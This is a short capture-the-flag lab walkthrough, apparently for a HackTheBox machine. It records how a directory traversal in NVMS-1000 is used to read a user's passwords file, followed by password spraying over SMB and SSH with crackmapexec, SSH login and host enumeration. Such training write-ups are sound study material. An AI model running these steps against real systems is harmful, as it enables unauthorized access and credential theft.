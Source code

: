 Trying #searchsploit

`searchsploit nvms`

![[Pasted image 20241214205450.png]]

`searchsploit -x hardware/webapps/47774.txt`
`-x for examine`

![[Pasted image 20241214205526.png]]
Entering the directory traversal into burpsuite 

![[Pasted image 20241214205646.png]]
Entered file path to Nathan's desktop instead and got the passwords.txt file.

![[Pasted image 20241214205835.png]]
Saving these passwords to a file. 

Trying #crackmapexec 

`crackmapexec smb 10.10.10.184 -u users.tx -p passwords.txt`

![[Pasted image 20241214210259.png]]
We may be able to see file shares now with #smbclient 

`smbclient -U Nadine -L //10.10.10.184`

![[Pasted image 20241214210432.png]]

Using #crackmapexec to connect via ssh

`crackmapexec ssh 10.10.10.184 -u nadine -p passwords.txt`

![[Pasted image 20241214222657.png]]
 Trying `ssh` 
 `ssh nadine@10.10.10.184`

Gained initial access. 

![[Pasted image 20241214222914.png]]
Enumerating.. 
`systeminfo`

![[Pasted image 20241214223009.png]]
Have microsoft version. Not any leads when googling the version. 

Checking her files for NVM application:

![[Pasted image 20241214223245.png]]

Found it `NVMS-1000`

![[Pasted image 20241214223523.png]]
#TIP: Always grab the configuration files of webservers because often times there are secrets in them that get you code execution on the box 
